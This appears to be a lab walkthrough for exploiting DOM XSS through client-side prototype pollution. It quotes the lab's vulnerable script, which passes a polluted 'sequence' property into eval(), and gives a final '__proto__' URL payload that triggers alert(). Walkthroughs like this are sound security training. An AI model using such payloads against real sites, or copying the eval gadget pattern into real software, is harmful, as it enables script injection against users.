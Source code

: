 # DOM XSS via an alternative prototype pollution vector
# Objective
This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call `alert()`.

You can solve this lab manually in your browser, or use DOM Invader to help you. 

# Solution
## Analysis
The website logs parameters send in search request.

|![](Images/image-18.png)|
|:--:|
| *Logger request with JSON data* |
|![](Images/image-19.png)|
| *Used scripts - Logger script* |

Source code of `searchLoggerAlternative.js`:
```js
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}

window.addEventListener("load", searchLogger);
```

## Exploitation
### Manual exploitation
Attacker can deliver exploit by specifying `sequence` property of `manager`, which later is executed by `eval()` - `sequence` can be used as gadget.

|![](Images/image-20.png)|
|:--:| 
| *Test for prototype pollution* |
|![](Images/image-21.png)|
| *Error in console caused by test paylod* |
|![](Images/image-22.png)|
| *Rendered script on page with final payload* |

Final payload:
```
/?__proto__.sequence=alert(1)-
```

### DOM Invader exploitation
In order to successfully exploit this prototype pollution, `-` must be add manually to the end of payload.

|![](Images/image-23.png)|
|:--:| 
| *DOM Invader - Detected sources* |
|![](Images/image-24.png)|
| *DOM Invader - Scanning for gadgets* |
|![](Images/image-25.png)|
| *DOM Invader - Scan results* |
|![](Images/image-26.png)|
| *DOM Invader - Final exploit* |
